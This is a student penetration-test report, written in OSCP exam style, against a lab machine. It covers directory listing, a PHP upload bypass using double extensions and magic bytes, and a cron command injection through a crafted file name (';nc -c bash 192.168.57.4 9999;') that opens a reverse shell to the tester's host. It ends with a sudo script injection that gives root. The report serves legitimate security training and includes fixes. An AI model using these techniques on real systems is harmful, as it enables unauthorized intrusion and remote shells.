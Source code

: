 ```yaml
---
title: "Offensive Security Checkpoint 01"
author: ["RM87187@fiap.com.br, RM86663@fiap.com.br, RM87101@fiap.com.br, RM87079@fiap.com.br, RM88582@fiap.com.br"]
date: "2022-09-01"
subject: "Pentest report"
subtitle: "OSCP like exam report"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
```

# Offensive Security OSCP like exam report


## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The students is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.

# High level summary

I was tasked with conducting an internal penetration test for the offensive security exam.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to carry out attacks, similar to those of a hacker and try to infiltrate the machine chosen by the teacher.
My overall goal was to assess the target and escalate privilege on the machine.
During internal penetration testing, several alarming vulnerabilities were identified in the target.

## Recommendations

We recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit this system in the future.

# Methodologies

We use a widely adopted approach to performing penetration testing.
Below is a summary of how we were able to identify and exploit each individual vulnerability found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, we were tasked with exploiting the target chosen by teacher.
The specific IP addresses were:

- 192.168.57.5

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.57.5      | **TCP**: 22,80,443\
		    

**Nmap Scan Results:**

![Nmap scan](path/imagem1.jpg)

*Initial Shell Vulnerability Exploited*

When enumerating the HTTP service, a "backup" directory was identified that has a directory listing issue and gave us access to a compressed file called "backup.tar".
![Directory Listing](path/imagem2.jpg)

After unzipping the file we can read the source codes:
![Source code - upload](path/uploadphp.jpg)
![Source code - lib](path/libphp1.jpg)
![Source code - lib](path/libphp2.jpg)

Analyzing the code, we can see that it checks if the file size is smaller than 60,000, checks if a file is actually being uploaded and checks if the file extension matches any of those in a predefined list. For that it uses the "getnameUpload" function, which exists in the "lib.php" file that is imported for use in the upload form.
This "getnameUpload" function creates a variable called "pieces" and splits the filename into parts, the "name" variable takes these pieces and replaces "." by "_" and the variable "ext" takes the last part after the "." to check the extension.
So when PHP executes the function, PHP takes the name of the image, for example "gabriel.png", reads it as an array and separates it into parts.
part 0 = gabriel
part 1 = png
It executes the variable "name" which has the value "gabriel", tries to replace all "." by "_" but as it has none, the value remains "gabriel" and executes the variable "ext" which has the value "png".
Now if we use the example "gabriel.php.png" PHP will separate it into 3 parts:
part 0 = gabriel
part 1 = php
Part 2 = png
The variable "name" still has the value "gabriel", it tries to replace all the "." by "_" but as it doesn't have any value, it's still "gabriel", but this time the variable "ext" will have "php.png" as its value.
We can also see a function called "check_file_type" that is checking the magic bytes of the file being uploaded, which means that just changing the extension in this case would not work, as the file must actually have the magic byte of a png or another file listed in the array earlier.

![Bless](path/bless.jpg)

After creating a PHP shell with the characteristics that we have already identified as being necessary, we get an RCE in the application.
![Uploading](path/requisicao.jpg)
![RCE](path/rce.jpg)

Using python we got the reverse shell.
![Reverse](path/reverse.jpg)


**Vulnerability Explanation: In this case, there were several vulnerabilities that led to the initial compromisement of the target, such as information disclosure due directory listing and unrestricted file upload.**

**Vulnerability Fix:
Directory listing can be disabled in the webserver configuration file.
To solve the information disclosure you can change the permission of the file "backup.tar".
Ways to fix unrestricted file upload issue:
- The file types allowed to be uploaded should be restricted to only those that are necessary for business functionality.
- Never accept a filename and its extension directly without having an allow list filter.
- The application should perform filtering and content checking on any files which are uploaded to the server. Files should be thoroughly scanned and validated before being made available to other users. If in doubt, the file should be discarded.**

**Severity: Critical**

**user.txt Proof Screenshot**
![Guly](path/gulyflag.jpg)


#### Privilege Escalation

When accessing the user directory "guly" we do not have permission to read the file "user.txt", however reading the file "crontab.guly" we can see that there is a configuration that executes the file "/home/guly/check_attack. php" every 3 minutes.
![Crontab](path/crontab.jpg)

So when reading the file check_attacks.php we can see a variable "$path" that has the static value defined as "/var/www/html/uploads", however the variable "value" is created receiving the input of "files".
The variable "files" is using PHP's "scandir" function passing the value "." meaning it wants to list all files and directories in THIS directory. Which means that if we create a file putting malicious content in the name PHP will probably try to execute it.
So, creating a file called ";nc -c bash 192.168.57.4 9999;" we can get a reverse shell as guly because in line code would be: "exec("nohup /bin/rm -f /var/www/html/uploads;nc -c bash 192.168.57.4 9999; > /dev/null 2>&1 &")"
![Malicious file](path/arquivomalicioso.jpg)
![Reverse as guly](path/reverseasguly.jpg)
![Guly](path/gulyflag.jpg)

After being as guly we run the command "sudo -l" and notice that there is a script that we have permission to run as root.
![SUID file](path/suid.jpg)

The script contains some variables with static content but others that are received by user input, and when it comes to network script where the variable format is "test=gabriel", then if we add a space after the term "gabriel" and we write, that term will be executed.
![Privesc](path/privesc.jpg)

*Additional Priv Esc info*

**Vulnerability Exploited: Command injection in the "check_attacks.php" script and abuse of network script with SUID.**

**Vulnerability Explanation: These vulnerabilities allowed command injection only by not handling user input and reflecting it directly in the script **

**Vulnerability Fix:Fix check_attacks.php handling with user input**

**Severity: Critical**

**Proof Screenshot Here:**
![Privesc](path/privesc.jpg)
